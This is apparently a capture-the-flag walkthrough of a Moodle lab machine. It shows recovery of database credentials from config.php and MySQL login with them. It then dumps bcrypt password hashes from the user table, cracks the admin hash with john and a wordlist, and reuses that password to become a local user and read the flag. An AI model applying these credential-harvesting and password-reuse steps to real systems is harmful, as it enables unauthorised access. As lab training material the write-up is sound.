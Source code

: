 ```bash
        $CFG = new stdClass();

        $CFG->dbtype    = 'mysqli';
        $CFG->dblibrary = 'native';
        $CFG->dbhost    = 'localhost';
        $CFG->dbname    = 'moodle';
        $CFG->dbuser    = 'moodle';
        $CFG->dbpass    = 'PlaybookMaster2020';
        $CFG->prefix    = 'mdl_';
        $CFG->dboptions = array (
        'dbpersist' => 0,
            'dbport' => 3306,
            'dbsocket' => '',
                'dbcollation' => 'utf8_unicode_ci',
                );

# Finding mysql:
    cmd: find / -type f -name "*mysql*" 2>/dev/null
    /usr/local/bin/mysql

# Checking DB:
    cmd: /usr/local/bin/mysql -u moodle -p PlaybookMaster2020

    moodle@localhost [(none)]> show databases;
    +--------------------+
    | Database           |
    +--------------------+
    | information_schema |
    | moodle             |
    +--------------------+
    2 rows in set (0.00 sec)

# DB enumeration for users that might have a home folder
    Jamie Borham id = 2
    James Heel 	 id = 7

# Got some hashes from mdl_user
    admin:$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW
    heel_james89:$2y$10$sjk.jJKsfnLG4r5rYytMge4sJWj4ZY8xeWRIrepPJ8oWlynRc9Eim
    james_boris89:$2y$10$N4hGccQNNM9oWJOm2uy1LuN50EtVcba/1MgsQ9P/hcwErzAYUtzWq
```

The only cracked hash (with john and rockyou-75) is for the admin moodle account
```bash
!QAZ2wsx         (admin)
```

If we log in as admin we can see that the admin account belongs to **"Jamie Borham"** which, potentially, is the user that detains the home folder seen before. With **su jamie** or via ssh, we got the user account <br>
```bash
su jamie
Password: !QAZ2wsx

cmd: whoami && id
jamie
uid=1001(jamie) gid=1001(jamie) groups=1001(jamie),0(wheel)

cmd: cat ~/user.txt
FLAG: cd93220c86375fb577a23a6730162286
```

